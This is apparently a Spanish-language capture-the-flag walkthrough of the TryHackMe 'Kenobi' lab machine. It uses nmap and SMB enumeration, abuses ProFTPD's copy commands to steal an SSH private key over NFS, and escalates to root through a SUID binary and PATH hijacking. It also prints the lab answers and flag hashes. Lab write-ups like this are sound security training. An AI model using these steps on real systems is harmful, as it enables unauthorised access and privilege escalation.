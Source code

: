 ```yaml
---
title: "tryhackme: Kenobi"
share: false
excerpt: "El mejor metodo de aprendizaje es practicando"
share: false
header:
  teaser:  /assets/images/kenobi/logo.jpg
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - FTP
  - SSH
  - SUID
---
```


## Comprovamos que la maquina este iniciada correctamente enviandole un *ping*

```bash
ping -c 1 10.10.37.122
PING 10.10.37.122 (10.10.37.122) 56(84) bytes of data.
64 bytes from 10.10.37.122: icmp_seq=1 ttl=63 time=154 ms

--- 10.10.37.122 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 153.968/153.968/153.968/0.000 ms
```

Como podemos ver, recibio el paquete enviado, ademas, mediante el *ttl* podemos saber que es una maquina  _linux_
tambien podemos usar la utilidad _wichSystem.py_ 

```bash
wichSystem.py 10.10.37.122

10.10.37.122 (ttl -> 63): Linux
```

# Fase 1: Recoleción de información

![descripcion imagene](/assets/images/kenobi/allports.png)

Descripción de los parámetros:

- -p- : Escanea los puertos especificados, en este caso escanea los 65535 puertos.
- -sS : Escanea TCP SYN
- --min-rate: Envía paquetes no mas lentos que el número indicado por segundo en nuestro caso 5000. 
- --open: Muestra solo los puertos abiertos.
- -vvv : Muestra la información mientras se esta realizando el escaneo.
- -Pn : Omite el descubrimiento de host.
- -n : No realiza resolución DNS.
- ip: la ip que queremos escanear
- -oG : Guarda la salida del escaneo en un formato grepeable (no sea util mas adelante)

> Scan the machine with nmap, how many ports are open 

> 7

vemos que tenemos varios puertos abieros, pero nos fijamos primeramente en el port *80* puesto que por _default_ es el usado 
para montar un servidor web

-Solo esta una imagen, y no encontramos nada que nos sera muy util al momento

utilizaremos la herramienta *gobuster* para buscar posibles rutas en el servidor, mientas nos da un resultado seguimos estudiando
los puertos a ver que conseguimos

![imagen gobuster](/assets/images/kenobi/gobuster.png)

luego del escaneo con *gobuster* vamos a la ruta _robots.txt_ que es la que nos llama la atencion

```bash
User-agent: *
Disallow: /admin.html
```
vamos la ruta que encontramos en *robots.txt* pero no encontramos nada que nos llame la atencion.

## nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.210.100

> using the nmap command, how many shares have been found?

> 3

El comando anterior esta utilizando varios _scripts_ de nmap para intenter enumerar posibles usuarios

## obtenemos acceso anonymous e intentermos descargar el archivo log.txt que esta en el directorio

Obtenemos esta respueta gracias a los escaneos que hemos hecho con nmap

> What port is FTP running on?

> 21


## Estas dos soluciones las tenemos previamente con el escaneo con nmap

> What is the version?

> 1.3.5

Ahora vamos a buscar un _exploit_ para la version de *ProFTPD* usando la herramienta *searchsploit*

> How many exploits are there for the ProFTPd running?

> 3

Nos conectaremos a la maquina usando *nc 10.10.98.8 21* y usaremos los comandos

```bash
❯ nc 10.10.98.8 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.98.8]
site cpfr /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
site cpto /var/tmp/id_rsa
250 Copy successful
```

ahora intentaremos realizar una montura en nuestra maquina de los archivos compartidos

```bash
> mkdir mnt
> mount 10.10.98.8:/var mnt/
> cp mnt/tmp/id_rsa . 
```

ahora procederemos a copiar la *id_rsa*

```bash
❯ cp mnt/tmp/id_rsa .
```

cambiamos los permisos a *id_rsa*

```bash
❯ chmod 600 id_rsa
```

procederemos a tratar de conectarnos usando la *id_rsa* que obtuvimos anteriormente

```bash
> ssh -i id_rsa kenobi@10.10.98.8
```

al estar dentro de la maquina procedemos a buscar la _flag_

```bash
> kenobi@kenobi:~$ ls
share  user.txt
> kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```

ahora que hemos encontrado la primer *flag* pasamos a buscar la manera de ganar acceso como _superusuario_ 

```bash
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/menu
/bin/su
/bin/ping6
```
como podemos ver, tenemos varias archivos con permisos *SUID*, pero nos llama la atencion el llamado _menu_
ahora vamos a ver que funcion cumple el archivo y como nos podemos aprovechar

```bash

```
partimos de la premisa de que este archivo se ejecuta com permisos *SUID*; Lo que intentaremos sera manipular el PATH para obtener
una _shell_ 

```bash
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
```
- Creamos un archivo curl
- le damos permisos 
- exportamos el path

```bash
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
 # whoami
root
```
ahora que somos *root* solo nos queda encontrar la _flag_

```bash
# cd root
# ls
root.txt
# ls
root.txt
# cat root.txt
177b3cd8562289f37382721c28381f02
```
